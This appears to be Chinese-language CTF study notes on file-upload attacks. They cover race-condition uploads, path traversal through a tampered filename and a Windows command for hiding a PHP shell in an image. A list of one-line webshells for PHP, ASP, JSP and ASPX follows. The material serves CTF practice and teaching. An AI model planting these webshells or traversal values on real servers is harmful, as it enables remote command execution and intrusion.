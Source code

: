 ~~试试18岁的手速？~~

可以在并发的情况下，一个脚本上传文件，一个访问文件



### 路径穿越



形式：上传的文件会被解析为日志不能执行，给出了`/uploads/xxx.php`路径并且可以查询

绕过：上传文件的时候抓包，修改文件名（filename）为`./../../../../flag`，上传成功后路径变为`/uploads/./../../../../flag`即可进行目录穿越，从而获取所需信息，如flag



### 图片马制作

用window下的cmd制作：

`copy  meinv.png /b + muma.php /a  muma.png `

其中/b代表二进制文件`binary`，放在图片后面，/a代表文字文件`ascii`

也可以用010editor直接将一句话马写在文件尾的后面

补充：可以直接修改数据包的数据，方法多种多样，不要局限

### 常用攻击代码

简单的一句话木马

```text
<?php @eval($_POST['cmd']);?>
```

绕过`<?`限制的一句话木马

```text
<script language = 'php'>@eval($_POST[cmd]);</script>
```

绕过`<?php ?>`限制的一句话木马

```text
<?= @eval($_POST['cmd']);
```

asp一句话木马

```text
<%eval(Request.Item["cmd"],”unsafe”);%>
```

JSP一句话木马

```text
<%if(request.getParameter("f")!=null)(newjava.io.FileOutputStream (application.getRealPath("\\")+request.getParameter("f"))).write (request.getParameter("t").getBytes());%>
```

ASPX一句话

```text
<script language="C#"runat="server">WebAdmin2Y.x.y a=new WebAdmin2Y.x.y("add6bb58e139be10")</script>
```



除此之外还可以用 异或取反等操作写shell的php脚本、混淆木马、不死马。

[参考](https://wiki.wgpsec.org/knowledge/ctf/uploadfile.html)
